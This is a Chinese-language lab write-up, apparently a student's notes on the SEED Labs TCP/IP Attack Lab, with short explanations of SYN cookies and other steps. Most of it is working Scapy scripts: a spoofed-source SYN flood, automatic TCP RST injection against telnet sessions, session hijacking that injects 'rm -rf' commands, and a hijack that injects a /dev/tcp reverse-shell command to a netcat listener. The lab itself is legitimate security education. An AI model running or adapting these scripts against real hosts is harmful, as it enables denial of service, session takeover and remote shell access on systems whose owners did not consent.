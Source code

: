 ```yaml
---
title: SeedLab ex3 TCP/IP Attack Lab
date: 2024-01-09
categories:
 - 网络安全
cover: /images/covers/grid.png
---
```


## Task1: SYNFlooding Attack

###  Task 1.1: Launching the Attack Using Python

pyhton syn flood 代码

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip
tcp = TCP(dport=23, flags="S")# telnet port
pkt = ip/tcp
while True:
	pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
	pkt[TCP].sport = getrandbits(16) # source port
	pkt[TCP].seq = getrandbits(32) # sequence number
	send(pkt, verbose = 0)
```

先运行1分钟，在telnet victim，大概会出错，再排查问题

1. TCP cache 清空
2. 多开synflood.py


### Task 1.2: Launch the Attack Using C

1. 编译
2. 清空缓存
3. 执行

###  Task 1.3: Enable the SYN Cookie Countermeasure

Please enable the SYN cookie mechanism, and run your attacks again, and compare the results

启用SYN Cookie机制后，服务器会在接收到TCP连接请求时，不立即分配资源和建立连接，而是生成一个特殊的cookie值发送给客户端。只有在客户端回应时，服务器才验证这个cookie值，如果验证通过，才正式建立连接。这样做的好处是，服务器无需在收到SYN包时立即分配资源，而是将部分连接状态保存在cookie中，从而能够有效抵御SYN洪水攻击。

## Task2: TCP RST Attacks on telnet Connections

服务器向客户端发送rst tcp包，找到服务器发给客户端的报文最新得报文

user1 telnet victim

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.5", dst="10.9.0.6")
tcp = TCP(sport=23, dport=43378, flags="R", seq=2402526666)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)

```
auto

```python
#!/usr/bin/env python3
from scapy.all import *


def rst_attack(packet):
    if packet.haslayer(IP) and packet.haslayer(TCP):
        if packet[TCP].dport == 23:  # 检查是否是telnet
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")

            # 伪造 从服务器向客户端发送的rst
            ip = IP(src=packet[IP].dst, dst=packet[IP].src)
            tcp = TCP(
                sport=packet[TCP].dport, dport=packet[TCP].sport, flags="R", seq=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            rst_packet = ip / tcp
            send(rst_packet, verbose=0)
            print("TCP RST packet sent")


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=rst_attack, store=0)

```

## Task3: TCP Session Hijacking

manual，手动会话劫持，wireshark看最后的包信息，获取seq ack port，执行后光标会动不了，原因是seq和ack乱了好像
```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=56952, dport=23, flags="A", seq=1006118204, ack=1285162686)
data = "rm -rf new.txt\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```


auto，选作
```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False


def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data) # 判断是否登录
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            data = "rm -rf new.txt\r"

            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```

## Task4: Creating Reverse Shell using TCP Session Hijacking

执行指令nc -lnv 9090，在本地（-l）以监听模式启动 netcat 工具，监听在9090端口上，并输出详细信息。运行自动劫持的代码，在telnet连接后，会自动执行 “/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r”命令。创建一个反向shell 映射到10.9.0.1的9090端口输入从tcp连接获取，错误输出重定向到tcp连接。

```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False

def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data)
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否d登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            # data = "rm -rf new.txt\r"
            data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)

iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```
